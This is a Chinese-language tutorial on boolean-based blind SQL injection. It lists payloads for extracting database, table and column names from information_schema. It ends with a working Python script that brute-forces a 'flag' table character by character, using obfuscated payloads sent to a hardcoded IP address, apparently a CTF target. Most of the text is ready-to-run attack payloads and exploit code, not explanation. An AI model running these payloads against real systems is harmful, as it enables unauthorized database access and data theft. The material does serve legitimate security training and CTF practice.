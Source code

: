布尔盲注

布尔盲注常用的函数
length()  返回字符串的长度
substr()  截取字符串
substr(a,b,c) 第一个是截取的字符串 ，第二个是截取的位置 ，第三个是截取的长度
ascii()   返回字符串的ASCII码
limit a,b  第一个字符代表查询内容的位置，第二个代表长度

布尔盲注原理：
通过网页的回显来判断读错，可以利用and < > = 来进行判断
sql语句：
SELECT * FROM users WHERE id='$id' LIMIT 0,1

爆数据库
(1)爆数据库长度
?id=1' and length(database())>10  若数据库名称长度大于10,则返回true,否则flase 来进行判断
(2)爆数据库名称
?id=1' and ascii(substr(database(),1,1))>number

爆表名
(1)爆表长度
?id=1' and length((select table_name from information_schema.tables  where table_schema="数据库名" limit 0,1))>number
(2)爆表名
?id=1' and ascii(substr((select table_name from information_schema.tables  where table_schema="数据库名" limit 0,1),1,1))>number

爆字段名
(1)爆长度
?id=1' and length((select column_name from information_schema.columns where table_name="表名" limit 0,1 ))>number
(2)
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name="表名" limit 0,1 ),1,1))>number



一个脚本

```
import requests

asc_str = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'
burp0_url = "http://1.14.71.254:28085/"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0", 
				 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", 
				 "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", 
				 "Accept-Encoding": "gzip, deflate", 
				 "Content-Type": "application/x-www-form-urlencoded"
				 }
content = ''
for i in range(1, 100):
	for s in asc_str:
		# payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(schema_name)/**/from/**/information_schema.schemata),{},1))={})/**/!=!/**/'1".format(i, ord(s))
		# payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='test'),{},1))={})/**/!=!/**/'1".format(i, ord(s))
		# payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='flag'),{},1))={})/**/!=!/**/'1".format(i, ord(s))
		payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(flag)/**/from/**/test.flag),{},1))={})/**/!=!/**/'1".format(i, ord(s))	
		burp0_data = {"username": payload}
		resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
		if 'string(39)' in resp.text:
			content += s
			print(content)

```

